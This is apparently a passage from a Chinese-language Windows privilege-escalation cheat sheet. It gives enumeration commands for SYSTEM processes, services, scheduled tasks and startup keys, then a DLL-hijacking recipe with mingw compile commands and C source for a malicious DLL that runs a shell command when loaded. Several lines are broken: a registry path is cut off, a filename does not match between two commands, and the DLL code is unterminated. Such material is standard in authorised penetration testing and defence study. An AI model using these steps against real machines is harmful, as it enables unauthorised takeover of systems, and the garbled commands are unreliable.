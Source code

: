 * 哪些进程以 "system" 身份运行？

  ```powershell
  tasklist /v /fi "username eq system"
  ```

* 你有 powershell 魔法吗？

  ```powershell
  REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
  ```

* 列出安装的程序

  ```powershell
  Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
  Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
  ```

* 列出服务

  ```powershell
  net start
  wmic service list brief
  tasklist /SVC
  ```

* 枚举计划任务

  ```powershell
  schtasks /query /fo LIST 2>nul | findstr TaskName
  schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
  Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
  ```

* 启动任务

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

## EoP - 服务中的错误权限

> 以管理员/系统身份运行的服务如果文件权限设置不正确，可能会允许EoP。您可以替换二进制文件，重启服务并获得系统权限。

通常，服务指向可写位置：

- 孤立的安装，不再安装但仍在启动中存在

- DLL劫持

  ```powershell
  # 查找缺失的DLL
  - 使用PowerUp.ps1中的Find-PathDLLHijack
  - 进程监视器：检查 "Name Not Found"
  
  # 编译恶意dll
  - 对于x64编译使用："x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
  - 对于x86编译使用："i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
  
  # windows_dll.c的内容
  #include <windows.h>
  BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
      if (dwReason == DLL_PROCESS_ATTACH) {
          system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
          ExitProcess(0);
      }
  ```
